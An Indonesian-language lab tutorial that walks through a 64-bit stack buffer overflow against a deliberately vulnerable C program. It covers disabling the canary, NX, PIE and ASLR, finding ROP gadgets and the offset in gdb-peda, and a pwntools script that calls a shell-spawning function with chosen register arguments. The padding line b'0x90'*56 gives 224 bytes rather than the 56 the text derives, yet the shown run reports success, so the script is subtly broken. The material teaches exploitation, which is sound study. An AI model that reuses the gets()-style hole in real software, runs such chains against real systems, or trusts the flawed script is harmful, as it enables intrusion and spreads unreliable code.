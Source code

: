 [x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NO NX ~ -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

sourcenya sama dengan yang 32 bit (0x03-fungsi dengan param - 32)

```c
#include<stdio.h>

void hackrich(int a, int b)
{
    if(a==0x10 && b==0x15)
    {
        printf("Hacked !!!!!\n");
        system("/bin/sh");
    }
    else if(a==0x10)
    {
	    printf("your second parameter is wrong!! \n");
    }
    else
    {
	    printf("you are NOOB !!\n");
    }
}

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan Canary,NX,PIE

```bash
gcc -g -m64 -fno-stack-protector -z execstack -no-pie -o vuln64 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

pada aplikasi yang dikompilasi dengan 64 bit

jalankan program vuln64 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln64
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

parameter disimpan pada register tidak seperti 32bit pada memory

parameter 1 disimpan di RDI
parameter 2 disimpan di RSI
parameter 3 disimpan di RDX
parameter 4 disimpan di RCX
parameter 5 disimpan di R8
parameter 6 disimpan di R9

untuk mengisi register diatas harus mengarahkan RIP ke fungsi hackrich tapi kemudian harus diarahkan ke gadget untuk mendapatkan isi param sesuai operasi

untuk mendapat gadget dari vuln64

```bash
ROPgadget --binary=./vuln64
Gadgets information
============================================================
0x0000000000401089 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004011cf : add al, ch ; retf 0xffff
0x00000000004010bb : add bh, bh ; loopne 0x401125 ; nop ; ret
0x00000000004011cd : add byte ptr [rax], al ; add al, ch ; retf 0xffff
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401138 : add byte ptr [rax], al ; add byte ptr [rax], al ; nop dword ptr [rax] ; jmp 0x4010d0
0x0000000000401088 : add byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x0000000000401039 : add byte ptr [rax], al ; jmp 0x401020
0x000000000040113a : add byte ptr [rax], al ; nop dword ptr [rax] ; jmp 0x4010d0
0x0000000000401034 : add byte ptr [rax], al ; push 0 ; jmp 0x401020
0x0000000000401044 : add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x0000000000401054 : add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x000000000040108e : add byte ptr [rax], al ; ret
0x0000000000401009 : add byte ptr [rax], al ; test rax, rax ; je 0x401012 ; call rax
0x000000000040108d : add byte ptr [rax], r8b ; ret
0x0000000000401127 : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004010ba : add dil, dil ; loopne 0x401125 ; nop ; ret
0x0000000000401047 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401128 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x00000000004011d4 : call qword ptr [rax + 0x1f0fc35d]
0x000000000040119b : call qword ptr [rax + 0x4855c3c9]
0x0000000000401178 : call qword ptr [rax + 0x7d8320eb]
0x0000000000401010 : call rax
0x0000000000401042 : fisubr dword ptr [rdi] ; add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x0000000000401224 : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040108a : hlt ; nop dword ptr [rax + rax] ; ret
0x000000000040100e : je 0x401012 ; call rax
0x00000000004010b5 : je 0x4010c0 ; mov edi, 0x404040 ; jmp rax
0x00000000004010f7 : je 0x401100 ; mov edi, 0x404040 ; jmp rax
0x000000000040103b : jmp 0x401020
0x0000000000401140 : jmp 0x4010d0
0x000000000040117a : jmp 0x40119c
0x00000000004010bc : jmp rax
0x000000000040119d : leave ; ret
0x0000000000401032 : loop 0x401063 ; add byte ptr [rax], al ; push 0 ; jmp 0x401020
0x00000000004010bd : loopne 0x401125 ; nop ; ret
0x0000000000401122 : mov byte ptr [rip + 0x2f17], 1 ; pop rbp ; ret
0x00000000004010b7 : mov edi, 0x404040 ; jmp rax
0x0000000000401179 : nop ; jmp 0x40119c
0x000000000040119c : nop ; leave ; ret
0x00000000004011d5 : nop ; pop rbp ; ret
0x00000000004010bf : nop ; ret
0x000000000040108b : nop dword ptr [rax + rax] ; ret
0x000000000040113c : nop dword ptr [rax] ; jmp 0x4010d0
0x000000000040123d : nop dword ptr [rax] ; ret
0x00000000004010b6 : or dword ptr [rdi + 0x404040], edi ; jmp rax
0x0000000000401234 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401236 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401238 : pop r14 ; pop r15 ; ret
0x000000000040123a : pop r15 ; ret
0x0000000000401233 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401237 : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401129 : pop rbp ; ret
0x000000000040123b : pop rdi ; ret
0x0000000000401239 : pop rsi ; pop r15 ; ret
0x0000000000401235 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401036 : push 0 ; jmp 0x401020
0x0000000000401046 : push 1 ; jmp 0x401020
0x0000000000401056 : push 2 ; jmp 0x401020
0x0000000000401016 : ret
0x00000000004011d1 : retf 0xffff
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401052 : shr byte ptr [rdi], cl ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x0000000000401245 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401244 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040100c : test eax, eax ; je 0x401012 ; call rax
0x00000000004010b3 : test eax, eax ; je 0x4010c0 ; mov edi, 0x404040 ; jmp rax
0x00000000004010f5 : test eax, eax ; je 0x401100 ; mov edi, 0x404040 ; jmp rax
0x000000000040100b : test rax, rax ; je 0x401012 ; call rax

Unique gadgets found: 72
```

untuk mencari param ke satu dilakukan sebagai berikut

```bash
$ROPgadget --binary=./vuln64| grep -i 'pop rdi'
0x000000000040123b : pop rdi ; ret
```

untuk mencari param ke dua dilakukan sebagai berikut

```bash
$ROPgadget --binary=./vuln64| grep -i 'pop rsi'
0x0000000000401239 : pop rsi ; pop r15 ; ret
```

sebelumnya mencari lokasi sampai EBP adalah sebagai berikut

```bash
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ run
Starting program: /root/You_Tube/Stack_Buffer_Overflow/2/vuln64 
give me your input :)

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe4e0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBX: 0x0 
RCX: 0x7ffff7fb4a00 --> 0xfbad2288 
RDX: 0x7ffff7fb68d0 --> 0x0 
RSI: 0x405671 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
RDI: 0x7fffffffe4e1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBP: 0x4147414131414162 ('bAA1AAGA')
RSP: 0x7fffffffe518 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RIP: 0x4011c6 (<foo+39>: ret)
R8 : 0x4056d5 --> 0x0 
R9 : 0x0 
R10: 0x405010 --> 0x0 
R11: 0x246 
R12: 0x401060 (<_start>: xor    ebp,ebp)
R13: 0x7fffffffe600 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011bf <foo+32>: call   0x401050 <gets@plt>
   0x4011c4 <foo+37>: nop
   0x4011c5 <foo+38>: leave  
=> 0x4011c6 <foo+39>: ret    
   0x4011c7 <main>: push   rbp
   0x4011c8 <main+1>: mov    rbp,rsp
   0x4011cb <main+4>: mov    eax,0x0
   0x4011d0 <main+9>: call   0x40119f <foo>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe518 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0x7fffffffe520 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0x7fffffffe528 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0x7fffffffe530 ("AJAAfAA5AAKAAgAA6AAL")
0032| 0x7fffffffe538 ("AAKAAgAA6AAL")
0040| 0x7fffffffe540 --> 0x4c414136 ('6AAL')
0048| 0x7fffffffe548 --> 0x4011c7 (<main>: push   rbp)
0056| 0x7fffffffe550 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011c6 in foo () at vuln_program.c:29
29 }
gdb-peda$ pattern offset 0x4147414131414162
4703800084066812258 found at offset: 48

```

sehingga sampai RBP akhir = 48 bytes + 8 bytes (64 bit) = 56

![[stack-frame-64-dengan-param.png]]

karena penggunaan pwn memudahkan untuk penulisan 64 bit yang banyak 0 nya
contoh untuk alamat pop rdi ; ret  0x000000000040123b bisa cukup ditulis dengan p64(0x40123b)

sehingga exploit untuk source diatas adalah sebagai berikut

```python
# padding --> 56
# hackrich --> 0x401142
# pop rdi ; ret -->0x40123b 
# pop rsi ; pop r15 ; ret -->0x401239

from pwn import *
p = process('./vuln64')
print(p.recv())
padding = b'0x90'*56
pop_rdi = p64(0x40123b)
val_rdi = p64(0x10)
pop_rsi_pop_r15 = p64(0x401239)
val_rsi = p64(0x15)
val_r15 = p64(0x0)
hackrich = p64(0x401142)

p.sendline(padding+pop_rdi+val_rdi+pop_rsi_pop_r15+val_rsi+val_r15+hackrich)
print(p.clean())
p.interactive()

```

hasilnya sebagai berikut

```bash
$python3 exploit64.py 
[+] Starting local process './vuln64': pid 16784
b'give me your input :)\n'
b'\nHacked !!!!!\n'
[*] Switching to interactive mode
```
